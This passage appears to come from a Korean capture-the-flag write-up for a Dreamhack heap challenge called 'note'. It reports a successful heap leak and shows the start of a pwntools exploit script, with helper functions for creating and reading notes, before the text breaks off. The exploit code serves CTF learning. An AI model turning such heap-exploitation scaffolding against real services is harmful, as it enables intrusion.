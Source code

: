 

![image.png](/assets/img/dh5note/image12.png)



![image.png](/assets/img/dh5note/image13.png)



heap 영역 leak 성공



이때 사용한 코드



```python

from pwn import *



#p = remote("host8.dreamhack.games", 24028)

p = remote('localhost', 31337)

#p = process('./note')

elf = ELF("./note")



def create(idx, size, data):

&nbsp;   p.sendline(b'1')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendlineafter(b'size: ', str(size).encode())

&nbsp;   p.sendafter(b'data: ', data)



def read_note(idx):

&nbsp;   p.sendline(b'2')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.recvuntil(b"data: ")

```